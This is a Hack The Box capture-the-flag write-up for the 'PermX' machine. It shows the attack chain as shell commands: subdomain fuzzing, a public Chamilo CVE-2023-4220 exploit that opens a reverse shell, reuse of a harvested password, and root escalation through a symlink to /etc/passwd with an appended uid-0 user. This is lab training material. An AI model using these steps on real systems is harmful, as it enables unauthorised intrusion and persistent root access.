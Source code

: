 ```yaml
---
title: PermX
tags:
  - Linux
  - Chamilo
  - CVE
  - Symlinks
  - HackTheBox
  - Easy
date: 2024-07-01T00:00:00Z
---
```

![](Pasted%20image%2020240901125933.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.23 permx.htb" | sudo tee -a /etc/hosts
```

Then I performed an Nmap scan:

```shell
nmap -sC -T4 -p- permx.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http
|_http-title: eLEARNING
```

So let's inspect the webpage:

![](Pasted%20image%2020240901130310.png)

After inspecting the source code, I decided to perform a [dirsearch 📁](/notes/tools/dirsearch.md) scan. I didn't find anything, so I decided to perform a [Ffuf 🐳](/notes/tools/Ffuf.md) domain scan:

```shell
ffuf -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -fc 302

[redacted]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 54ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 84ms]
```

>[!Note]
>*The `-fc` option is to filter by status codes*

I added the new subdomains to my known hosts and took a look at them:

![](Pasted%20image%2020240901131442.png)

A Free Software Learning Management system was found, **Chamilo**. 

## Weaponization

I found this script: [CVE-2023-4220](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

## Exploitation

Once cloned, I used the script like:

```shell
python3 main.py -u http://lms.permx.htb -a revshell
```

>We've got a shell :D

![](Pasted%20image%2020240901132756.png)

Stabilize the shell with:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we've got no read permissions on user's home. So now I uploaded linpeas to gather information. I found the user's `mtz` password:

![](Pasted%20image%2020240901134117.png)

> So I connected through ssh and got the user flag :D

![](Pasted%20image%2020240901134211.png)

## Privilege Escalation

If we run linpeas again, we found the following:

![](Pasted%20image%2020240901134630.png)

If we run `sudo -l`:

![](Pasted%20image%2020240901134929.png)

Let's inspect that script:

![](Pasted%20image%2020240901135000.png)

This script allows us to set specific permissions on a specific file for a given user, but:
- The file path must be under `/home/mtz/`
- The file path cannot contain directory traversal symbols `..`

So, what we can do here is to create a symbolic link to the `/etc/passwd` file in the `/home/mtz` directory. Then edit the file to add a privileged user:

- Generate a password hash (in your machine):

```shell
openssl passwd gitblanc

$1$f38cgIRL$X1QP8m/e8ew.xshFc8Vd9/
```

- Escalate:

```shell
ln -s /etc/passwd passwd # create the symbolic link
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
echo 'gitblanc:$1$f38cgIRL$X1QP8m/e8ew.xshFc8Vd9/:0:0:root:/root:/bin/bash' >> /home/mtz/passwd
```

- Check the passwd file to confirm that the new privileged user exists:

![](Pasted%20image%2020240901140110.png)

> Now just login as the new user: `gitblanc:gitblanc`, and got the root flag

![](Pasted%20image%2020240901140819.png)

==Machine pwned!==
